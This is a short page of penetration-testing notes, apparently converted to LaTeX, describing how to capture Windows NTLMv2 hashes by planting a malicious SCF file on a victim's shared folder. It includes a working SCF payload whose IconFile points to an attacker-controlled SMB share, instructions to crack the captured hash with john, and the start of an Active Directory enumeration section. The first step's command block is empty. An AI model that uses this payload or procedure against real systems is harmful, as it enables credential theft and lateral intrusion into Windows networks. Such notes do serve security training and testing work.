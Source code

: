 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
\textbf{SCF} (Shell Command File) are simple files that can be used to perform a connection to the attacker machine by using the
\textbf{SMB} protocol. The intersting purpose of those kind of files is that they can perform small and limited set of operations,
but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit of this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim one.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  in a shell, create a shared folder and let it open

\begin{Shaded}
\end{Shaded}
\item
  create the malicious scf file

\begin{verbatim}
[Shell]
Command=2
IconFile=\\10.10.10.11\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
\end{verbatim}
\item
  copy the malicious file in the desired victim shared resource
\end{enumerate}

That's it\ldots{} Check the shared folder that you have created previously and if there is an interaction between the victim
and the file, you will receive the NTLMv2 hash of the victim.

You can then try to crack the hash with \textbf{john}

\hypertarget{active-directory-enumeration}{%
\section*{Active Directory Enumeration}\label{active-directory-enumeration}}

As soon as we see port 88 and 389 or if victime machine changed the port number and we see Kerberos and LDAP, Attacker can estimate that the
victim machine is a Domain Controller.
\end{document}
